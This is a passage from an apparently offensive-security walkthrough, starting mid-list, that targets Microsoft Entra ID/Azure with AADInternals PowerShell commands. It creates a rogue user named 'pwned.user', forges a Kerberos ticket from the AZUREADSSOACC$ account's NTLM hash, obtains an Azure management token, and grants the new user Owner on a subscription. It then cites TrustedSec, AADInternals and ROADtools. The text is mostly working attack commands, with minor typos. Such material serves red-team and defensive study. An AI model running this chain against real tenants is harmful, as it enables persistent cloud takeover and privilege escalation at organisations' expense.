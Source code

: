 ```
Get-AADIntAzureSubscriptions
```
16) Create a new user for interactive sign-ins with AADInternals (note the ObjectID & password !)
```
New-AADIntUser -UserPrincipalName pwned.user@domain.com -DisplayName "pwned user"
```
17) In a new PS1 terminal
```
$kerberos=NewAADIntKerberosTicket -SidString “<Internal AD sid>” -Hash <SSOACC$ NTLM Hash>
Get-AADIntAccessTokenForAzureCoreManagement -KerberosTicket $kerberos -Domain domain.local -SaveToCache
Connect-AzAccount -AccessToken <Token>
Get-AZSubscription
$subScope = "subscriptions/<id of subscription>"
New-AzRoleAssignment -ObjectID <object id of account> -RoleDefinitionName "Owner" -$subScope
Login to https://portal.azure.com with your new user :)
```

Sources : 
https://www.trustedsec.com/blog/azure-ad-kerberos-tickets-pivoting-to-the-cloud/
https://aadinternals.com/aadinternals/
https://github.com/dirkjanm/ROADtools

